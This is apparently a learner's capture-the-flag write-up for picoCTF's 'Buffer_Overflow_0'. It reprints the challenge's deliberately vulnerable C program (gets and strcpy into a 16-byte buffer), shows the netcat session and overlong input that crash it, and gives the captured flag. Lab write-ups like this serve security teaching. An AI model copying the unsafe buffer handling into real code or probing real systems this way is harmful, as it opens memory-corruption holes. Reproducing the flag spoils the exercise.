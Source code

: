 # CTF Challenge: Buffer_Overflow_0

## Table of Content

- commands-executed:  nc saturn.picoctf.net 58895.
- flag :picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}


### Chain of thought / Learning:
- we have a c program and its source code. so we start by understanding every line of the code.

  ```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  #include <signal.h>
  
  #define FLAGSIZE_MAX 64 //defines a file size of 64
  
  char flag[FLAGSIZE_MAX]; //initialize an array with memory of 64 bytes
  
  void sigsegv_handler(int sig) {      /* a function to handle segmentation fault error , it prints the flag when triggered so                                                                           the goal is to trigger segmentation fault*/ 
    printf("%s\n", flag);
    fflush(stdout);
    exit(1);                          //program exits with errors
  }
  
  void vuln(char *input){
    char buf2[16];                    /* I have a pointer input which has the input it takes and copies it to a buf2 variable with 16
                                          byts of memory if I exceed the 16 bytes of memory it should trigger the segmentation fault */
    strcpy(buf2, input);
  }
  
  int main(int argc, char **argv){
    
    FILE *f = fopen("flag.txt","r");            //opens a file named flag.txt in read mode 
    if (f == NULL) {                                                            
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }
    
    fgets(flag,FLAGSIZE_MAX,f);
    signal(SIGSEGV, sigsegv_handler); // This is my segmentation fault detector which will call sigsegv_handler in case that error comes
    
    gid_t gid = getegid();             //something to do with the ids 
    setresgid(gid, gid, gid);
  
  
    printf("Input: ");
    fflush(stdout);
    char buf1[100];                    // 100 byts of input allowed
    gets(buf1);                       // input taken from user   
    vuln(buf1);                       //input fed to our vuln fn
    printf("The program will exit now\n");
    return 0;
  }

  ```
-The plan of action is very simple all i need to do is overflow the memory of buf2 i.e 16 bytes so i'll try 17 characters to see if it fails.
- on using 17 characters segmentation fault was not tripped so i ll try 33(1 more than 16*2) characters.
- it tripped and it worked successfully.
- Major learning : segmentation fault handlers sigsegv_handlers and how they are used to carry out instructions on hitting a memory overflow.

  
#### Output:
```console
┌──(anonymous㉿Anonymous)-[~]
└─$ nc saturn.picoctf.net 60703
saturn.picoctf.net [13.59.203.175] 60703 (?) : Connection refused
                                                                                                                         
┌──(anonymous㉿Anonymous)-[~]
└─$ nc saturn.picoctf.net 58895
Input: eeeeeeeeeeeeeeeee
The program will exit now
                                                                                                                         
┌──(anonymous㉿Anonymous)-[~]
└─$ nc saturn.picoctf.net 58895
Input: eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}


```

